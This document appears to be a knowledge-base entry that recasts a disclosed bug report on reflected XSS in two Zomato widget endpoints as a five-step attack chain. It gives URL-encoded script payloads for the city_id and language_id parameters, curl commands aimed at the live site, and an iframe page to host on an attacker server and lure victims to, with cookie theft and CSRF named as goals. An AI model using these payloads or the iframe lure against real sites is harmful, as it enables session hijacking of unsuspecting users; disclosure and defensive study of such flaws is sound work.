

---
tags:
  - xss
  - reflected-xss
  - javascript-injection
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Identify-Vulnerable-Widget-API-Endpoints]]'
  - '[[procedures/Test-Reflected-XSS-in-City-ID-Parameter]]'
  - '[[procedures/Test-Reflected-XSS-in-Language-ID-Parameter]]'
  - '[[procedures/Exploit-XSS-via-Iframe-Embedding]]'
  - '[[procedures/Verify-Parameter-Sanitization]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Demonstrates the discovery and exploitation of reflected XSS vulnerabilities
  in Zomato's widget API endpoints, allowing JavaScript injection via
  unsanitized parameters for potential CSRF and session hijacking.
skill_level: intermediate
impact_level: high
id: 0551df20-a199-496f-843e-00d26e796bcc
created_at: '2025-12-14T03:15:26.589Z'
updated_at: '2025-12-14T03:15:26.589Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS in Zomato Widget API Parameters Leading to Arbitrary JavaScript Execution

The report discloses two reflected XSS vulnerabilities in Zomato's widget API endpoints: all_collections.php and o2.php. The vulnerabilities were discovered by testing parameters for HTML and JavaScript filtering, revealing that the city_id parameter in all_collections.php and the language_id parameter in o2.php accept unsanitized input. Exploitation involves injecting payloads into these parameters via crafted URLs, which can be embedded in iframes on attacker-controlled websites, allowing arbitrary JavaScript execution in the zomato.com origin when users visit the site, potentially leading to CSRF attacks and session hijacking.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome Developer Tools for testing)
- [[commands/curl-test-xss-payload]]

### Target Environment

- Web platform
- PHP-based API endpoints
- Publicly accessible URLs on zomato.com

### Initial Access Requirements

- Internet access
- No credentials required (public-facing endpoints)
- Ability to host attacker-controlled website for iframe exploitation

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Widget API Endpoints
procedure: [[procedures/Identify-Vulnerable-Widget-API-Endpoints]]

**Objective**: Examine the widget API endpoints to identify potential parameter vulnerabilities.

**Instructions**: Review the structure of https://www.zomato.com/widgets/all_collections.php and https://www.zomato.com/widgets/o2.php, focusing on query parameters like city_id and language_id.

**Expected Output**: List of endpoints and parameters for further testing.

**Success Indicators**:
- Endpoints confirmed accessible
- Parameters identified for injection testing

### Step 2: Test Reflected XSS in City ID Parameter
procedure: [[procedures/Test-Reflected-XSS-in-City-ID-Parameter]]

**Objective**: Inject payloads into the city_id parameter to check for unsanitized input reflection.

**Instructions**: Craft a URL with a JavaScript payload in the city_id parameter and load it in a browser or use curl to observe the response. Example payload: %22%3E%3Cimg%20src=http://goo.gl/JPx2sV%3E%3Cscript%3Ealert%28document.domain%29;%3C/script%3E%3Ca%20href=

Use [[commands/curl-test-xss-payload]] to send the request:

```bash
curl "https://www.zomato.com/widgets/all_collections.php?city_id=%22%3E%3Cimg%20src=http://goo.gl/JPx2sV%3E%3Cscript%3Ealert%28document.domain%29;%3C/script%3E%3Ca%20href="
```

Embed in an iframe on a test page to verify execution in zomato.com context.

**Expected Output**: Alert box showing document.domain or visible script execution in the widget.

**Success Indicators**:
- JavaScript alert triggers
- Payload elements render without filtering

### Step 3: Test Reflected XSS in Language ID Parameter
procedure: [[procedures/Test-Reflected-XSS-in-Language-ID-Parameter]]

**Objective**: Inject payloads into the language_id parameter to confirm lack of sanitization similar to city_id.

**Instructions**: Craft a URL with a payload in the language_id parameter. Example payload: %22}%27%29;alert%28document.domain%29;console.log%28%27

Use [[commands/curl-test-xss-payload]] adapted for this endpoint:

```bash
curl "https://www.zomato.com/widgets/o2.php?language_id=%22}%27%29;alert%28document.domain%29;console.log%28%27"
```

Load in browser or iframe to check for execution, including console.log output in developer tools.

**Expected Output**: Alert and console log execution confirming vulnerability.

**Success Indicators**:
- JavaScript executes in the context
- No filtering of script tags or event handlers

### Step 4: Exploit XSS via Iframe Embedding
procedure: [[procedures/Exploit-XSS-via-Iframe-Embedding]]

**Objective**: Demonstrate real-world exploitation by embedding the vulnerable widget in an attacker-controlled site.

**Instructions**: Create an HTML page with an iframe sourcing the crafted vulnerable URL. For example:

```html
<iframe src="https://www.zomato.com/widgets/all_collections.php?city_id=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C/script%3E"></iframe>
```

Host this page on an attacker server and lure victims to visit, triggering execution in zomato.com origin.

**Expected Output**: Arbitrary JS runs when victim loads the page, potentially stealing cookies or performing CSRF.

**Success Indicators**:
- JS executes cross-origin in trusted domain
- Potential for session hijacking confirmed

### Step 5: Verify Parameter Sanitization
procedure: [[procedures/Verify-Parameter-Sanitization]]

**Objective**: Test other parameters to ensure the vulnerabilities are isolated.

**Instructions**: Inject similar payloads into additional parameters in both endpoints and observe responses.

Use [[commands/curl-test-xss-payload]] with varied parameters:

```bash
curl "https://www.zomato.com/widgets/all_collections.php?other_param=%3Cscript%3Ealert(1)%3C/script%3E"
```

Check for filtering in responses.

**Expected Output**: Payloads blocked or escaped in non-vulnerable parameters.

**Success Indicators**:
- Only city_id and language_id vulnerable
- Other params sanitized

## Attack Chain Summary

### Key Achievements

1. Identified two unsanitized parameters in widget APIs
2. Confirmed reflected XSS via payload injection
3. Demonstrated iframe-based exploitation for drive-by attacks
4. Scoped impact to specific parameters

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2024-01-01T00:00:00Z*
